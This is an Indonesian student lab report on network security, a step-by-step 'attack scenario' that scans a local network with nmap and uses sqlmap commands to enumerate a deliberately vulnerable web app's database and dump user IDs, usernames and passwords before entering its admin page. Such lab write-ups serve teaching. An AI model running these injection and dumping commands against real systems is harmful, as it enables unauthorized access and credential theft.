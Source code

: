 ﻿<h3 align="center">
    <b>Kemanan Jaringan</b><br>
    Attack Scenario
</h3>
<br>
<p align="center">
  <img src="./Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.001.png" width="300">
</p>
<br>
<p align="center">
    Dosen Pembimbing:<br>
    Ferry Astika Saputra, S.T., M.Sc.
</p>
<br>
<p align="center">
    Disusun Oleh:<br>
    Iqbal Darmawan (3122640041)
</p>
<br>
<p align="center">
    <b>
        KELAS D4 LJ IT B <br>
        JURUSAN D4 LJ TEKNIK INFORMATIKA <br>
        DEPARTEMEN TEKNIK INFORMATIKA DAN KOMPUTER <br> 
        POLITEKNIK ELEKTRONIKA NEGERI SURABAYA <br>
        2023
    </b>
</p>
<br>
<br>

1\.  Mengakses Database 

1. Dapatkan Ip dari kali linux yang digunakan untuk menyerang 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.002.png)

2. gunakan Ipcalc untuk mendapatkan range dari IP 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.003.png)

3. Nmap untuk mendapatkan Ip dari target yang ingin diserang atau Ip yang juga tersambung pada range yang sama 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.004.png)

4. buka ip pada browser 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.005.jpeg)

5. coba jalankan menggunakan SQLMap sqlmap -u “Url” –dbs : untuk mendapatkan data database yang ada 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.006.png)

6. disini saya ingin melihat tabel pada database vulnweb. 

sqlmap -u “url” -D vulnweb –tables : untuk melihat daftar list table pada database vulnweb 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.007.jpeg)

7. selanjutnya kita lihat kolom yang ada pada tabel user  

sqlmap -u “url” -T user –columns : untuk melihat daftar kolom pada tabel 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.008.jpeg)

8. selanjutnya kita dapatkan data dari tiap kolom tabel user  

sqlmap -u “url” -C id\_user,password,username –dump : digunakan untuk mendapatkan data id\_user, password, dan username 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.009.png)

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.010.png)

9. selanjutnya masuk ke menu admin untuk melihat isi data yang ada di aplikasinya 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.011.jpeg)

10. Lihat salah satu data untuk mengetahui isi database 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.012.jpeg)

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.013.jpeg)

11. Jalankan Perintah  

sqlmap -u "http://192.168.30.148/?tampil=artikel\_detail&id=85" -C gambar,hits,id\_artikel,isi,judul,tanggal –dump 

untuk menampilkan data sql 

![](Aspose.Words.dc8654be-2886-4dc9-a6ef-7ce7861c0de0.014.jpeg)
